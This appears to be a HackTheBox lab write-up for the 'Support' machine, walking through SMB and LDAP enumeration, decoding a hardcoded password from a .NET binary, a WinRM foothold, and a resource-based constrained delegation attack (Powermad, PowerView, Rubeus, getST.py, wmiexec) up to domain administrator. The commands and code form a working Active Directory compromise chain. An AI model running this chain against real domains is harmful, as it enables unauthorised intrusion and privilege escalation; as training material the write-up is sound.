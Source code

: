 # HackTheBox Support Walkthrough

![](images/Support.png)

As always, we start off with a rustscan.

rustscan --range 1-65535 -a 10.10.11.174 -- -A -T4 -Pn -sC -sV

Open 10.10.11.174:53
Open 10.10.11.174:88
Open 10.10.11.174:135
Open 10.10.11.174:139
Open 10.10.11.174:389
Open 10.10.11.174:445
Open 10.10.11.174:464
Open 10.10.11.174:593
Open 10.10.11.174:3268
Open 10.10.11.174:3269
Open 10.10.11.174:5985
Open 10.10.11.174:9389
Open 10.10.11.174:49668
Open 10.10.11.174:49674
Open 10.10.11.174:49664
Open 10.10.11.174:49686
Open 10.10.11.174:49700
Open 10.10.11.174:54010

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|\_    bind
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-09-29 16:24:03Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|\_http-server-header: Microsoft-HTTPAPI/2.0
|\_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn\_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack Microsoft Windows RPC
54010/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=9/29%Time=6335C6A9%P=x86\_64-alpine-linux-musl%r
SF:(DNSVersionBindReqTCP,20,"\\0\\x1e\\0\\x06\\x81\\x04\\0\\x01\\0\\0\\0\\0\\0\\0\\x07ver
SF:sion\\x04bind\\0\\0\\x10\\0\\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|\_clock-skew: -2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34350/tcp): CLEAN (Timeout)
|   Check 2 (port 19493/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 18339/udp): CLEAN (Timeout)
|\_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|\_    Message signing enabled and required
| smb2-time: 
|   date: 2022-09-29T16:26:20
|\_  start\_date: N/A

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:28
Completed NSE at 16:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 244.24 seconds

We gain new information. Support.htb seems to be the DC domain name. Lets confirm by using dig to enumerate the DNS servers.

dig @10.10.11.174 +short support.htb 

![](images/image.png)

Now we can enumerate SMB to see if there is anything interesting.

smbclient -N -L \\\\10.10.11.174

![](images/image-1.png)

smbclient -N \\\\\\\\10.10.11.174\\\\support-tools

Support-tools may be hiding relevant files.

![](images/image-2.png)

Let's download all files to our local machine.

![](images/image-3-1024x222.png)

Unzip UserInfo.exe.zip and try to run the file. I used win64 but could not get the program to stop crashing. I gave up and moved to a windows machine.

![](images/image-4.png)

The program seems to be searching LDAP users, let's check if the .exe file has any connection credentials hardcoded. Download dnSpy [https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8](https://github.com/dnSpy/dnSpy/releases/tag/v6.1.8)

Upon inspecting the file. It wasn't hard to find the encrypted password.

![](images/image-5-1024x576.png)

getPassword() method is decrypting the password. All we have to do is run the code in our chosen programming language with slight variations. I chose to use C#.

using System.Text;

Console.WriteLine("Hello, World!");
byte\[\] array = Convert.FromBase64String("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E");
byte\[\] array2 = array;
byte\[\] key = Encoding.ASCII.GetBytes("armando");
for (int i = 0; i < array.Length; i++)
{
    array2\[i\] = (byte)(array\[i\] ^ key\[i % key.Length\] ^ 223);
}
Console.WriteLine(Encoding.Default.GetString(array2));

![](images/image-6-915x1024.png)

![](images/image-7-1024x544.png)

The encrypted password is now decrypted!

Now we can go back to our kali machine and search LDAP for all users.

ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | tee ldap.txt

Browsing through ldap.txt. The account support has a string following 'info:' that looks a lot like a password.

![](images/image-8.png)

We'll try connecting using evil-winrm.

![](images/image-9-1024x178.png)

And we've got our foothold on the machine!

We'll run winpeas.exe since it's already on the target machine. Nothing interesting comes back.

We'll need to download Powerview and Powermad and then upload and import them into win-rm.

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

Let's check our object creation permissions.

Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb

We're able to add up to 10 computers to the domain. Let's try adding a new object.

New-MachineAccount -MachineAccount MYACC -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force) -Verbose
Get-DomainComputer myacc -Properties objectsid

![](images/image-10-1024x170.png)

The code below was borrowed from a friend. It's used to create a new security descriptor.

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
$SDBytes = New-Object byte\[\] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

Now we need to upload Rubeus.exe into evil-winrm.

upload /root/Rubeus.exe
./Rubeus.exe hash /password:password123 /user:MYACC$ /domain:support.htb

![](images/image-11.png)

Save the aes256 hash because we'll use it later to generate a Kerberos ticket.

back on the kali machine. We will use the aes key to impersonate admin.

getST.py support.htb/MYACC -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey C832FA9E499757C08A5AC999526613B97D6D5C6B0ABA5158512977266B817F72

![](images/image-12-1024x144.png)

export KRB5CCNAME=administrator.ccache
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

![](images/image-14.png)

And we're admin!

![](images/image-13.png)
